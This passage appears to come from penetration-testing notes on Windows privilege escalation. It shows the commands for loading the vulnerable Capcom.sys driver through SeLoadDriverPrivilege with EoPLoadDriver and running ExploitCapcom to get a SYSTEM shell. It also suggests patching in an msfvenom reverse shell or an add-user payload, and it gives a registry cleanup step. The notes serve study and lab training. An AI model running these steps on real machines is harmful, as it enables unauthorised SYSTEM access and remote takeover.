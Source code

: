     cat drivers.txt | Select-String -pattern Capcom

    # we can exploit this using the ExploitCapcom tool - https://github.com/tandasat/ExploitCapcom
    # after compiling it with VisualStudio

    .\ExploitCapcom.exe
    # this launches a shell as SYSTEM in GUI

    # if we do not have GUI access
    # we need to edit the ExploitCapcom.cpp code before compiling
    # and replace line 292 with a reverse shell binary created by msfvenom, for example
    # like this - TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
    # alternatively, we can use a add user payload
    ```

    ```cmd
    # to automate enabling SeLoadDriverPrivilege, and loading the driver
    # we can use tools like EoPLoadDriver - https://github.com/TarlogicSecurity/EoPLoadDriver/
    EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

    # after this we can run ExploitCapcom.exe
    ```

    ```cmd
    # for cleaning up, we can delete the registry key entry
    reg delete HKCU\System\CurrentControlSet\Capcom
    ```

* Server Operators:
